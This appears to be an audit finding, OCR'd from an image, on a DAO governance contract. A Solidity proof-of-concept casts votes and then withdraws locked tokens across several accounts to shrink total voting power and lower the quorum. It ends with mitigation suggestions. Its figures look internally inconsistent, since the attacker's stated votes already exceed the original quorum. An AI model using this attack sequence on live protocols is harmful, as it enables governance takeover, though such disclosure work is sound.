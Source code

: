 
Total Voting Power: 350,000e18

Quorum Requirement (4%): 14,000e18

Attacker Voting Power: ~100,000e18

Attack Execution Flow:
```solidity 
// Step 1: Create proposal
proposalId = governance.propose(
    targets,
    values,
    calldatas,
    "Timing Attack Proposal",
    IGovernance.ProposalType.TreasuryAction
);
​
// Step 2: Attacker votes
vm.prank(attackerAccounts[0]);
governance.castVote(proposalId, true);  // ~100k votes
​
// Step 3: Wait for lock expiry
vm.warp(block.timestamp + 366 days);
​
// Step 4: Coordinated attack withdrawals
for(uint i = 1; i < NUM_ACCOUNTS; i++) {
    vm.prank(attackerAccounts[i]);
    veToken.withdraw();  // Each withdrawal reduces total voting power
}
```
Final State:

Reduced Total Voting Power: 150,000e18

New Quorum Requirement: 6,000e18

Attacker's Votes: 99,726e18 (Now sufficient to pass)

### Impact
A malicious actor can unilaterally pass governance proposals by coordinating token withdrawals to artificially lower the quorum from 14,000e18 to 6,000e18 tokens, and complete governance control with only ~100k votes instead of the intended higher threshold.

Take control of governance

Bypass intended democratic processes

Achieve this with far fewer votes than should be required

Tools Used
### Recommendations
Freeze Quorum at Proposal Creation

Implement Withdrawal Restrictions
